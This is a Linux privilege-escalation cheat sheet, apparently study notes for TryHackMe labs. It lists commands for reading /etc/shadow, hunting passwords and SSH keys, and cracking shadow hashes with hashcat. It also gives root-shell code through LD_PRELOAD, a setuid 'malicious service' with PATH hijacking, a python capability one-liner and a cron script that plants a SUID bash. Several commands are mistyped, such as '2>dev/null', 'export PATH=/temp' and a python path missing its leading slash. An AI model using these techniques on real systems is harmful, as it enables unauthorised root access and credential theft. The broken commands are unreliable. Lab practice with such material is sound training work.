



## Warning
- if you found any command that you dont understand, you can check it [here](https://explainshell.com)

## OS Information Gathering
- hostname
- uname -a 
- cat /proc/version
- cat /etc/issue
- lscpu
- ps aux (tgk service running)
- ps aux | grep root (tgk yg run under root)
- whoami
- id
- sudo -l
- cat /etc/passwd
- cat /etc/passwd | cut -d: -f 1
- cat /etc/shadow
- cat /etc/group
- history

## Network Information Gathering
- ifconfig
- ip a
- ip route
- arp -a
- ip neigh
- netstat -ano (check port, communication)

## Password Hunting
- grep —color=auto -rnw ‘/’ -ie “PASSWORD” —color=always 2>dev/null
- grep —color=auto -rnw ‘/’ -ie “PASSWORD=” —color=always 2>dev/null
- locate password | more
- locate passwd | more
- find / -name id_rsa 2>/dev/null
- find / -name authorized_keys  2> /dev/null


## Automated tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggestor](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

## Kernel Exploits


Tools: [Kernal Exploits](https://github.com/lucyoa/kernel-exploits)

- Get kernal version
  


- Search for exploit
  


- Run Exploit Suggestor
  


## Escalation via Stored Passwords
- history
- cat .bash_history
- [Looting for password](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#checklists)

## Escalation via Weak File Permissions

- weak file permission of shadow file (shadow file should not have read access)



- x is the placeholder for password (the password containe within the shadow file)


### Crack Password within shadow file

```bash
nano passwd
nano shadow
unshadow passwd shadow
nano unshadowed [save dalam file]
hashcat -m 1800 hash /usr/share/wordlist/common.txt --show 
```

- Result


- Reference for hash mode : [Hashing Types](https://hashcat.net/wiki/doku.php?id=example_hashes)

## Escalation via SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null (private key)
```

- id_rsa


```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@<ip-address>
```


## Sudo Privilege Escalation


### Exploitation

- [GTFOBin](https://gtfobins.github.io/)
- [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

## Escalation via intended Functionality

- Example : wget (where user usually used to download file)
- If the exploitation not consist within the GTFOBin, the still will be other way to exploit, Google is the keyword.

Example: [wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

## Escalation via LD_PRELOAD


What is LD_PRELOAD ?

LD_PRELOAD is an environment variable used in Unix-like operating systems to specify a shared library that should be loaded before any other library. This library is then searched for functions before the standard libraries.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- unsetenv("LD_PRELOAD"): Removes the LD_PRELOAD environment variable from the process's environment. This is done to prevent any other libraries specified in LD_PRELOAD from being loaded after this one.
  
- setgid(0): Sets the group ID (gid) of the current process to 0 (root group).

- setuid(0): Sets the user ID (uid) of the current process to 0 (root user).

- system("/bin/bash"): Executes the /bin/bash shell as a subprocess with the newly set user and group IDs (i.e., as the root user).



- The command gcc -fPIC -shared -o shell.so shell.c -nostartfiles compiles the shell.c code as a Position Independent Executable (PIE) shared library named shell.so. The -nostartfiles flag is used to prevent the linker from adding the standard library startup files

- The command sudo LD_PRELOAD=/home/user/shell.so apache2 sets the LD_PRELOAD environment variable to point to the shell.so library and runs the Apache2 web server with elevated privileges (as root). Here's what happens:

## TryHackMe Room (Simple CTF)

dirsearch - https://github.com/maurosoria/dirsearch


Exploit-DB for Simple CMS - https://www.exploit-db.com/exploits/46635


## CVE-2019-14287 (Sudo Security Bypass thm)

- Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502

## Overview and Escalation via CVE-2019-18634 (Sudo Buffer Overflow)

- Exploit for CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

## Escalation Path SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```


gtfobin




## Escalation via Shared Object Injection

- similar to ld_preload
- need to revise back

## Escalation via Binary Symlink (Nginx Exploitation)

- Nginx Exploit - https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

## Escalation via Enviromental Variable

```bash
env
```


```bash
find / -type f -perm -04000 -ls 2>dev/null
```


- Create malicious service then which will be execute automatically

```bash
echo 'main(){ setgid(0); setuid(0); system("/bin/bash"); return 0;}' >/tmp/service.c

gcc /tmp/service.c -o /tmp/service

export PATH=/temp:$PATH
print $PATH
```

## Escalation Capabilities

- Hunting capabilities

```bash
getcap -r / 2>/dev/null
```


*get capability to run python as root

- create exploit

```bash
usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


*most important part kne ada ep (permit everything)


### Escalation via cronjobs

- Command to get list of cron jobs

```bash
cat /etc/crontab
```


* overwrite.sh run every one minute in machine

## Escalation via Cron Paths

1. Check list of cron jobs

```bash
cat /etc/crontab
```


* cron job run overwrite.sh run every one minute in machine on path /home/user

2. Check cronjob file

```bash
ls -la /home/user
```


* overwrite.sh not exist (can be create with malicious content)

3. Write cronjob file

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

4. Wait for the file overwrite or run by the cronjob

```bash
ls -la /tmp
/tmp/bash -p
```


